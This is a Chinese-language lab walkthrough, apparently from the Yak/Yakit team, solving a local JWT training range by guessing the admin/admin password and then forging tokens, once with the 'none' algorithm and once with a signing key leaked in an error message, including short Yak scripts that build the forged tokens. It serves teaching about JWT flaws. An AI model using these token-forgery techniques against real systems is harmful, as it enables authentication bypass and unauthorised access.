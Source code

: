 #  YAK-JWT靶场通关
  
![](wechat2md-57d4b38fb5fac67b077017855ed50c43.gif)  
  
先祝大家情人节快乐  
  
然而作为一头单身奋斗牛，超级牛表示：  
  
心中无爱人，工作自然神  
  
![](wechat2md-22ac12aa7dede6743620818f9571d487.gif)  
  
![](/articles/wechat2md-148bc7946a6236b7f129b680fb88560c.webp)  
  
![](/articles/wechat2md-6c696d703d37b7922f56f83179072912.png)  
  
![](/articles/wechat2md-b2b327b40fd22cfa3030b112c1454b84.png)  
  
打开jwt靶场是一个登录页面  
  
![](/articles/wechat2md-49758cb6ed01a598db63db5cffa634bd.png)  
  
尝试弱口令admin/admin成功登录。  
  
![](/articles/wechat2md-c2fc8f7110c8827e9aad8bb6191230b1.png)  
  
通过抓包可以看到，整个登录过程主要是3个请求：  
  
第一个页面：  
**https://127.0.0.1:8080/jwt/unsafe-login1**（GET请求）  
  
这个页面是登录首页，通过localStorage从会话中读取VULINBOX_JWT变量，如果存在则通过这个jwt请求/jwt/unsafe-login1/profile，获取用户信息并展示。否则显示登  
录页面。  
  
![](/articles/wechat2md-7244bb965618bbe1db99240d3d2e678c.png)  
  
第二个页面：  
**https://127.0.0.1:8080/jwt/unsafe-login1**（POST请求）  
  
同在/jwt/unsafe-login1页面，通过POST请求发送认证信息，如果成功则返回jwt，否则返回认证失败的错误  
  
![](/articles/wechat2md-b30612056eab0cc25f94ae51c49eee85.png)  
  
![](/articles/wechat2md-0e02f6c6074b34cda99c7dd814fb18bf.png)  
  
第三个页面：  
**https://127.0.0.1:8080/jwt/unsafe-login1/profile**  
  
通过Authorization将jwt传递给后端，如果验证成功则返回用户信息，否则返回认证失败的提示  
  
![](/articles/wechat2md-815dbc1b80152fce4551e78be09f111e.png)  
  
![](/articles/wechat2md-27c6cd6ef7635e4219ac66e73ebfc64e.png)  
  
![](/articles/wechat2md-3accf232fbd32aff2d7cfd7d740196cd.png)  
  
用户首先通过用户名密码向后端请求得到jwt，再通过jwt向后端请求得到完整用户信息，并将信息展示在前端。  
  
![](/articles/wechat2md-b90f2c3c0de69540c95394c5ba8beffc.png)  
  
![](/articles/wechat2md-2d1055f4bda6fa1f93c1482548baa192.png)  
  
首先打开JWT的登录(未验证算法)案例，在这个案例中，后端未校验加密算法，将根据用户传递的加密算法解密验证jwt。  
  
如图是正常的jwt结构。可以看到在header中存储了用户名，根据页面提示，游戏目标是**为用户信息添加flag字段**。所以我们的目标就是修改jwt内的header，并绕过后端的校验。  
  
![](/articles/wechat2md-63521bcd51caa44b63d7a4284b025ced.png)  
  
首先了解一下jwt结构：jwt由3部分组成，使用.连接，第一部分是header信息，第二部分是Claims信息，第三部分是签名。  
  
如果使用node方式生成jwt那header部分和Claims部分都是直接通过base64编码，签名为空，那可以编写脚本：  
```
header = codec.EncodeBase64(json.dumps({
        "age": 25,
        "alg": "none",
        "kid": 1,
        "typ": "JWT",
        "username": "admin",
        "flag":1,
    }))
claims = codec.EncodeBase64(json.dumps({

    }))

println("%s.%s."%[header,claims])

```  
  
通过webfuzzer将刚生成的jwt发送到/jwt/unsafe-login1/profile接口，发现这次返回值只有一个flag  
  
![](/articles/wechat2md-9d7f04ef9534696df92fa7297b6ff663.png)  
  
通过mitm抓包改包修改jwt可以看到通关页面  
  
![](/articles/wechat2md-d5d254364fe911486f4952ac3de47160.png)  
  
![](/articles/wechat2md-bc1ac79ac44a6e1da07b6f0a5857ac52.png)  
  
打开案例：登录(错误中泄漏key)  
  
和案例1相同的页面，发现获取用户信息的接口改为了 **/jwt/unsafe-login2/profile**。尝试使用案例1的手段发现报错：  
  
![](/articles/wechat2md-2d40b02a0c758764762eb60ab8ae40b8.png)  
  
可以看到原因是禁用了none的认证方式：'none' signature type is not allowed，但从错误中可以看到泄漏的key。  
  
key是一个byte数组，所以可以编写yak代码，通过泄漏的key生成修改后的jwt：  
```
key = []byte{100,89,84,117,75,83,66,116,72,120,88,98,73,109,110,70,99,74,97,75}
jwtStr = jwt.JWTGenerateEx("HS256", {
        "flag":1,
    },{}, key)~
println(jwtStr)
```    
将生成的jwt应用到/jwt/unsafe-login2/profile接口，得到返回数据  
  
![](/articles/wechat2md-205f1f90aa43b2d58cccf66d015d0ac4.png)  
  
从前端页面可以看到修改成功  
  
![](wechat2md-d5d254364fe911486f4952ac3de47160.png)  
  
  
**END**  
  
  
 **YAK官方资源**  
  
  
Yak语言官方教程：  
https://yaklang.com/docs/intro/
Yakit视频教程：  
https://space.bilibili.com/437503777  
Github下载地址：  
https://github.com/yaklang/yakit  
Yakit官网下载地址：  
https://yaklang.com/  
Yakit安装文档：  
https://yaklang.com/products/download_and_install  
Yakit使用文档：  
https://yaklang.com/products/intro/  
常见问题速查：  
https://yaklang.com/products/FAQ 
  
![](/articles/wechat2md-382b711760574d429c6c8742ecfc1d9b.png)  
  
![](/articles/wechat2md-304b45488320344b4c7cdbd5759ee4e8.gif)  
  
  

